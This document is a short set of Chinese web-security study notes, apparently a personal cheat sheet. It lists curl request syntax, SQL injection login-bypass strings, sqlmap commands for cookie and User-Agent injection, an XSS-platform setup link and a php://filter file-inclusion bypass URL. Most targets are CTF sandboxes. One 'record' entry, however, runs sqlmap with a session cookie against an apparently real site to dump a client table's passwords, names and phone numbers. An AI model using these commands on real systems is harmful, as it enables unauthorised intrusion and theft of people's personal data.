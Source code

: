 ```yaml
---
title: Web
createTime: 2025/04/24 18:35:25
permalink: /studyNotes/g57atgl1/
---
```

# URL请求

## curl

- 发送普通POST请求

```shell
curl -X POST -d "key1=value1&key2=value2" http://example.com/api
```

- 发送JSON类型的POST请求

```shell
curl -X POST -H "Content-Type: application/json" -d '{"key1": "value1", "key2": "value2"}' http://example.com/api
```

- 保存Cookie

```bash
curl -c cookies.txt http://127.0.0.1:80
```

- 使用Cookie

```bash
curl -b cookies.txt http://127.0.0.1:80
```

## nc

- 发送POST请求

```shell
POST /path HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 78

a=ndna
```

# SQLMap

> [教程](https://www.cnblogs.com/ichunqiu/p/5805108.html)
>
> [参数](https://blog.csdn.net/NSQ0207/article/details/131837727)



## 万能密码

- ' or 1=1#
- ' or true #
- '='   '='

## Cookie注入

```shell
sqlmap -u "http://www.xxx.org/jsj/shownews.asp" --cookie "id=31" --table --level 2
```

## UA注入

```shell
sqlmap -u "http://challenge-1250c3ebdebfc6f0.sandbox.ctfhub.com:10800/" --level=3 --risk=3 --headers="User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0" -D sqli -T wxmokipbcq -C xkxiyjbmux --batch --dump
```

## 记录

```shell
sqlmap -u http://hbgydx.centj.net/index.php/Client/Active/addseat?id=20 --cookie "PHPSESSID=cir6gf4isu908apap1q3qg7ggg" --dump -D hbgydx_centj_net -T client -C "password,user_class,user_college_name,user_grade,user_name,user_nu,user_phone" --tamper=between 
```



# XXS

## xxs-platform平台搭建

- [github地址](https://github.com/78778443/xssplatform)
- [教程](https://segmentfault.com/a/1190000021899373)
- Tips：想要远程访问，最后记得更改nginx的监听路径

# php

## include绕过

- http://8615a72a-84b2-4fa3-b669-e177a16528c1.node5.buuoj.cn:81/index.php?file=php://filter/read=convert.base64-encode/resource=/var/www/html/flag.php

- [绕过方法](https://bbs.huaweicloud.com/blogs/400777)
